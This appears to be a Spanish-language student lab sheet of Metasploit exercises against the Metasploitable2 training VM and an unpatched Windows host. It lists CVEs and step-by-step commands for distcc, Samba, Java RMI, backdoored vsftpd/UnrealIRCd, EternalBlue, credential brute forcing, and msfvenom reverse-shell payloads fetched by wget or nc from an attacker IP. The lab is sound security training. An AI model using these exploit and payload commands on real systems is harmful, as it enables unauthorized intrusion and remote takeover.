








# EJERCICIOS METASPLOIT

### Prerrequisitos

Para las siguientes vulnerabilidades, escanea la máquina Metasploitable2 (o utiliza un escaneo anterior si lo tienes guardado), investiga las vulnerabilidades, encuentra el puerto y servicio donde pueden darse y comprueba si puedes explotarlas. En caso de elegir un payload, explica tu elección.
Como extra, una vez comprometida la máquina, puedes buscar información como el usuario actual, hostname, versión del sistema, o interfaces de red.

## BÁSICO

## Ejercicio 1 — DistCC

### Ficha de la vulnerabilidad

| Campo                     | Valor                                                                                                                                                                                                                                                                  |
| ------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **CVE**                   | CVE-2004-2687 [^1]                                                                                                                                                                                                                                                     |
| **Descripción**           | distcc 2.x, cuando no está configurado para restringir el acceso al puerto del servidor, permite a atacantes remotos ejecutar comandos arbitrarios mediante trabajos de compilación, los cuales son ejecutados por el servidor sin comprobaciones de autorización [^1] |
| **Software afectado**     | distcc (distccd)                                                                                                                                                                                                                                                       |
| **Utilidad del software** | Sistema de compilación distribuida que permite distribuir tareas de compilación de código fuente entre múltiples máquinas en red para acelerar el proceso                                                                                                              |
| **Versiones afectadas**   | distcc 2.x (incluyendo la versión incluida en XCode 1.5) [^1]                                                                                                                                                                                                          |
| **Puertos**               | 3632/TCP                                                                                                                                                                                                                                                               |
| **Módulos Metasploit**    | `exploit/unix/misc/distcc_exec` [^2]                                                                                                                                                                                                                                   |

### Explotación

```bash
# 1. Escanear puerto distccd
nmap -sV -p 3632 <IP_VICTIMA>

# 2. Iniciar msfconsole
msfconsole

# 3. Buscar y seleccionar módulo
search distcc
use exploit/unix/misc/distcc_exec

# 4. Configurar opciones
set RHOSTS <IP_VICTIMA>
set RPORT 3632

# 5. Elegir payload o usar el predeterminado
show payloads
set payload cmd/unix/reverse_bash
set LHOST <IP_ATACANTE>
set LPORT 4444

# 6. Ejecutar exploit
exploit

# 7. Post-explotación
whoami
hostname
uname -a
ifconfig
```




> [!TIP]
> Usamos setg para no tener que escribir el RHOSTS y el LHOST en cada uso de exploit.

## Ejercicio 2 — Samba Usermap Script

### Ficha de la vulnerabilidad

| Campo                     | Valor                                                                                                                                                                                                                                                |
| ------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **CVE**                   | CVE-2007-2447 [^3]                                                                                                                                                                                                                                   |
| **Descripción**           | Vulnerabilidad de inyección de comandos en Samba. Los parámetros de entrada de usuario sin escapar se pasan como argumentos a `/bin/sh`, permitiendo ejecución remota de comandos a través de la opción no predeterminada "username map script" [^3] |
| **Software afectado**     | Samba                                                                                                                                                                                                                                                |
| **Utilidad del software** | Suite de interoperabilidad que proporciona servicios de archivos e impresión para clientes Windows (SMB/CIFS) en sistemas Unix/Linux                                                                                                                 |
| **Versiones afectadas**   | Samba 3.0.0 — 3.0.25rc3 (inclusive) [^3]                                                                                                                                                                                                             |
| **Puertos**               | 139/TCP (netbios-ssn), 445/TCP (microsoft-ds)                                                                                                                                                                                                        |
| **Módulos Metasploit**    | `exploit/multi/samba/usermap_script` [^4]                                                                                                                                                                                                            |

### Explotación

```bash
# 1. Escanear puertos Samba
nmap -sV -p 139,445 <IP_VICTIMA>

# 2. Iniciar msfconsole
msfconsole

# 3. Buscar y seleccionar módulo
search samba usermap
use exploit/multi/samba/usermap_script

# 4. Configurar opciones
set RHOSTS <IP_VICTIMA>
set RPORT 139

# 5. Elegir payload
show payloads
set payload cmd/unix/reverse_netcat
set LHOST <IP_ATACANTE>
set LPORT 4444

# 6. Ejecutar exploit
exploit

# 7. Post-explotación
whoami
hostname
uname -a
id
```





## Ejercicio 3 — Java RMI

### Ficha de la vulnerabilidad

| Campo | Valor |
|-------|-------|
| **CVE** | CVE-2011-3556 [^5] |
| **Descripción** | Vulnerabilidad no especificada en el componente Java Runtime Environment en Oracle Java SE JDK/JRE que permite a atacantes remotos comprometer la confidencialidad, integridad y disponibilidad, relacionada con RMI. La configuración insegura por defecto del RMI Registry permite cargar clases desde cualquier URL remota (HTTP) [^5] |
| **Software afectado** | Oracle Java SE (JRE/JDK) |
| **Utilidad del software** | Java Remote Method Invocation (RMI) permite que objetos Java en diferentes máquinas virtuales se invoquen métodos entre sí de forma remota |
| **Versiones afectadas** | Java SE 7, 6 Update 27 y anteriores, 5.0 Update 31 y anteriores, 1.4.2_33 y anteriores [^5] |
| **Puertos** | 1099/TCP (RMI Registry) |
| **Módulos Metasploit** | `exploit/multi/misc/java_rmi_server` [^6] |

### Explotación

```bash
# 1. Escanear puerto RMI
nmap -sV -p 1099 <IP_VICTIMA>

# 2. Iniciar msfconsole
msfconsole

# 3. Buscar y seleccionar módulo
search java_rmi_server
use exploit/multi/misc/java_rmi_server

# 4. Elegir payload
set payload java/meterpreter/reverse_tcp

# 5. Ejecutar exploit
exploit

# 6. Post-explotación 
getuid
sysinfo
ifconfig
```


## AVANZADO

## Ejercicio 4 — Metasploit Workspace

### Guía de comandos

```bash
# 1. Iniciar msfconsole con base de datos
msfconsole

# 2. Crear workspace "metasploitable2"
workspace -a metasploitable2

# 3. Cambiar al workspace creado
workspace metasploitable2

# 4. Escaneo de puertos con db_nmap
db_nmap -sV -p- <IP_VICTIMA>

# 5. Comprobar entradas en la base de datos
hosts          # Equipos descubiertos
services       # Servicios y puertos
vulns          # Vulnerabilidades asociadas

# 6. Exportar resultados de nmap a archivo XML (por ej.)
nmap -sV -p- -oX /tmp/scan.xml <IP_VICTIMA>

# 7. Importar resultados a la base de datos de Metasploit
db_import /tmp/scan.xml

# 8. Verificar importación
hosts
services
```





## Ejercicio 5 — EternalBlue (MS17-010)

### Ficha de la vulnerabilidad

| Campo | Valor |
|-------|-------|
| **CVE** | CVE-2017-0144 (principal), CVE-2017-0143, CVE-2017-0145, CVE-2017-0146, CVE-2017-0147, CVE-2017-0148 [^7] |
| **Descripción** | Vulnerabilidad crítica en la implementación del protocolo SMBv1 de Microsoft que permite ejecución remota de código. El exploit EternalBlue aprovecha un desbordamiento de búfer en el kernel de Windows al manejar paquetes SMB especialmente diseñados, permitiendo ejecución de código a nivel de kernel [^7] |
| **Software afectado** | Microsoft Windows |
| **Utilidad del software** | SMB (Server Message Block) es el protocolo de red para compartir archivos, impresoras y comunicaciones entre procesos en redes Windows |
| **Versiones afectadas** | Windows Vista, 7, 8.1, 10, Server 2008, 2012, 2016 (sin el parche MS17-010) [^7] |
| **Puertos** | 139/TCP, 445/TCP |
| **Módulos Metasploit** | `exploit/windows/smb/ms17_010_eternalblue` [^8], `auxiliary/scanner/smb/smb_ms17_010` |

### Explotación

```bash
# NOTA: Metasploitable2 es Linux y NO es vulnerable a EternalBlue.
# Este ejercicio requiere una máquina Windows sin parchear (ej: Windows 7 SP1 x64).

# 1. Escanear para detectar MS17-010
msfconsole
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS <IP_WINDOWS>
run

# 2. Si es vulnerable, seleccionar exploit
use exploit/windows/smb/ms17_010_eternalblue

# 4. Elegir payload (windows/x64/meterpreter/reverse_tcp — necesario para
#    sistemas x64, Meterpreter ofrece capacidades avanzadas de post-explotación)
set payload windows/x64/meterpreter/reverse_tcp

# 5. Ejecutar exploit
exploit

# 6. Dejar sesión en background (segundo plano)
background
# o Ctrl+Z

# 7. Demostrar que la sesión está en background
sessions

# 8. Recuperar la sesión
sessions -i <ID_SESION>
```

---

## Ejercicio 6 — Backdoors

### Vsftpd

| Campo | Valor |
|-------|-------|
| **CVE** | CVE-2011-2523 [^9] |
| **Descripción** | vsftpd 2.3.4 descargado entre el 30 de junio y el 3 de julio de 2011 contenía una backdoor que abre un shell en el puerto 6200/TCP al recibir un usuario con terminación `:)` [^9] |
| **Software** | vsftpd 2.3.4 (versión backdoorizada) |
| **Puerto** | 21/TCP (FTP), 6200/TCP (shell backdoor) |
| **Módulo Metasploit** | `exploit/unix/ftp/vsftpd_234_backdoor` [^10] |

```bash
# 1
msfconsole

# 2
search vsftpd

# 3
use exploit/unix/ftp/vsftpd_234_backdoor

# 4 
show payloads
set payload <payload>

# 5
exploit
```


### UnrealIRCd

| Campo | Valor |
|-------|-------|
| **CVE** | CVE-2010-2075 [^11] |
| **Descripción** | El archivo de descarga Unreal3.2.8.1.tar.gz contenía una backdoor maliciosa entre noviembre de 2009 y el 12 de junio de 2010, permitiendo ejecución remota de comandos [^11] |
| **Software** | UnrealIRCd 3.2.8.1 |
| **Puerto** | 6667/TCP (IRC), 6668/TCP (alternativo) |
| **Módulo Metasploit** | `exploit/unix/irc/unreal_ircd_3281_backdoor` [^12] |

```bash
# 1
msfconsole

# 2
search ircd

# 3
use exploit/unix/irc/unreal_ircd_3281_backdoor

# 4 
show payloads
set payload cmd/unix/reverse_perl

# 5
exploit
```

### ¿Por qué se consideran backdoors y no vulnerabilidades?

Se consideran **backdoors** y no vulnerabilidades porque el código malicioso fue **introducido intencionalmente** en el tarball de descarga oficial del software por un atacante que compromise el servidor de distribución (supply chain attack). No se trata de un error de programación o diseño (vulnerabilidad), sino de una **puerta trasera deliberada** que permite acceso no autorizado. En el caso de vsftpd, el código backdoorizado responde a un username con `:)` abriendo un shell root. En UnrealIRCd, se insertó un macro `DEBUG3_DOLOG_SYSTEM` que ejecuta comandos del sistema. Ambos fueron descubiertos por la comunidad tras detectar comportamientos anómalos en los binarios distribuidos [^9] [^11].

## Ejercicio 7 — Módulos auxiliares — PostgreSQL

### Guía de comandos

```bash
# 1. Escanear puerto PostgreSQL
nmap -sV -p 5432 <IP_VICTIMA>

# 2. Iniciar msfconsole
msfconsole

# 3. Fuerza bruta de credenciales PostgreSQL
use auxiliary/scanner/postgres/postgres_login
set USER_FILE /usr/share/metasploit-framework/data/wordlists/postgres_default_user.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/postgres_default_pass.txt
set VERBOSE false
run

# 4. Una vez obtenidas las credenciales (postgres:postgres), conectarse
#    y obtener sesión interactiva con Meterpreter
#    NOTA: En Metasploitable2, las credenciales son postgres:postgres
use exploit/linux/postgres/postgres_payload
set USERNAME postgres
set PASSWORD postgres
set DATABASE template1
set payload linux/x86/meterpreter/reverse_tcp
set LHOST <IP_ATACANTE>
set LPORT 4444
exploit

# 5. Una vez obtenida la sesión Meterpreter, identificar:
getuid          # Usuario actual
sysinfo         # Sistema operativo
ifconfig        # Interfaces de red

# 6. Alternativa: desde la shell de PostgreSQL
sessions -i <ID>
query 'SELECT version();'
query 'SELECT inet_server_addr();'
```



## Ejercicio 8 — Módulos auxiliares — FTP y VNC Server

### FTP — Fuerza bruta

```bash
msfconsole

# 1. Escanear puerto FTP
nmap -sV -p 21 <IP_VICTIMA>

# 2. Fuerza bruta FTP
use auxiliary/scanner/ftp/ftp_login
set RHOSTS <IP_VICTIMA>
set RPORT 21
set USER_FILE /usr/share/wordlists/metasploit/usr.txt
set PASS_FILE /usr/share/wordlists/metasploit/pass.txt
set VERBOSE false
run

# 3. Alternativa: usuario y contraseña en blanco (Metasploitable2 permite
#    acceso anónimo)
set USERNAME anonymous
set PASSWORD anonymous
run
```

### VNC Server — Fuerza bruta

```bash
msfconsole

# 1. Escanear puerto VNC
nmap -sV -p 5900 <IP_VICTIMA>

# 2. Fuerza bruta VNC
use auxiliary/scanner/vnc/vnc_login
set RHOSTS <IP_VICTIMA>
set RPORT 5900
set THREADS 5
run

# 3. En Metasploitable2, la contraseña de VNC es "password"
#    Una vez obtenida, conectar con:
vncviewer <IP_VICTIMA>:5900
```

---

## Ejercicio 9 — MSFVenom

### Guía de comandos

```bash
# 1. Generar payload Linux reverse shell con MSFVenom
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP_ATACANTE> LPORT=4444 -f elf -o /tmp/payload.elf

# 2. Transferir payload a la máquina víctima (Metasploitable2)
#    Opción A: Servidor HTTP en Kali
cd /tmp
python3 -m http.server 8080
#    En la víctima (desde otra shell obtenida previamente):
wget http://<IP_ATACANTE>:8080/payload.elf -O /tmp/payload.elf

#    Opción B: Netcat
#    En Kali:
nc -lvp 4445 < /tmp/payload.elf
#    En víctima:
nc <IP_ATACANTE> 4445 > /tmp/payload.elf

# 3. Asignar permisos de ejecución (en la víctima)
chmod +x /tmp/payload.elf

# 4. Ejecutar payload (en la víctima)
./tmp/payload.elf

# 5. Configurar handler en Metasploit para recibir la conexión
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST <IP_ATACANTE>
set LPORT 4444
exploit

# 6. Una vez recibida la sesión, comprobar acceso y reunir información
getuid
sysinfo
ifconfig
hostname
cat /etc/*release
```

---

## Referencias

[^1]: NVD — CVE-2004-2687: https://nvd.nist.gov/vuln/detail/CVE-2004-2687
[^2]: Rapid7 — DistCC Daemon Command Execution: https://www.rapid7.com/db/modules/exploit/unix/misc/distcc_exec
[^3]: Samba — CVE-2007-2447: https://www.samba.org/samba/security/CVE-2007-2447.html
[^4]: Rapid7 — Samba "username map script" Command Execution: https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script
[^5]: NVD — CVE-2011-3556: https://nvd.nist.gov/vuln/detail/CVE-2011-3556
[^6]: Rapid7 — Java RMI Server Insecure Default Configuration: https://www.rapid7.com/db/modules/exploit/multi/misc/java_rmi_server
[^7]: Microsoft — MS17-010: https://msrc.microsoft.com/update-guide/en-US/vulnerability/MS17-010
[^8]: Rapid7 — MS17-010 EternalBlue: https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue
[^9]: NVD — CVE-2011-2523: https://nvd.nist.gov/vuln/detail/CVE-2011-2523
[^10]: Rapid7 — VSFTPD v2.3.4 Backdoor: https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor
[^11]: NVD — CVE-2010-2075: https://nvd.nist.gov/vuln/detail/CVE-2010-2075
[^12]: Rapid7 — UnrealIRCD 3.2.8.1 Backdoor: https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor
[^13]: Rapid7 — Metasploitable 2 Exploitability Guide: https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide
[^14]: Metasploit — PostgreSQL Guide: https://docs.metasploit.com/docs/pentesting/metasploit-guide-postgresql.html
